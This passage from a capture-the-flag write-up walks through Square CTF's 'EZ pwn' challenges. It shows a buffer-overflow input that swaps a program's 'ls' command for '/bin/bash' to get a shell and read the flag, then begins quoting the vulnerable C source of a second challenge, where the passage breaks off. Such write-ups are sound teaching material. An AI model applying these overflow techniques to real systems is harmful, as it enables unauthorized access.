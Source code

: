 So we can enter:

```
Hi! would you like me to ls the current directory?
aaaaaaaapwd
Ok, here ya go!

/home/pwnable_user
```

That's great! We just changed the command it's executing. Let's try using `/bin/bash` to get an executable shell.

And, there we go!

```
Hi! would you like me to ls the current directory?
aaaaaaaa/bin/bash
Ok, here ya go!

pwd
/home/pwnable_user
ls
ez-pwn-1  the_flag_is_in_here
cd the_flag_is_in_here
ls
flag.txt
cat flag.txt
flag{congrats_youve_exploited_a_memory_corruption_vulnerability}
```

## EZ pwn 2 (2022)

<https://squarectf.com/2022/ezpwn2.html>

Challenge Description:

> **Required reading:**
>
> - [intro to x86](https://www.cs.virginia.edu/~evans/cs216/guides/x86.html)
> - [x86-64 stack layout](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)
> - [Stack Canaries](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/)
> - [stack based buffer overflows](https://en.wikipedia.org/wiki/Stack_buffer_overflow)
> - [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)
>
> **Optional Reading:**
>
> - [pwntools](https://docs.pwntools.com/en/stable/intro.html#making-connections)

And we are given the following C program:

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

void hex_string_to_byte_array(char *hex_str, char *byte_arr, int size)
{
    int byte_ind = 0;
    for (int count = 0; count < size; count += 2)
    {
        sscanf(&hex_str[count], "%2hhx", &byte_arr[byte_ind]);
        byte_ind++;
    }
}

// this can also easily be used for memory leaks
void print_buf(unsigned char *buf, int sz)
```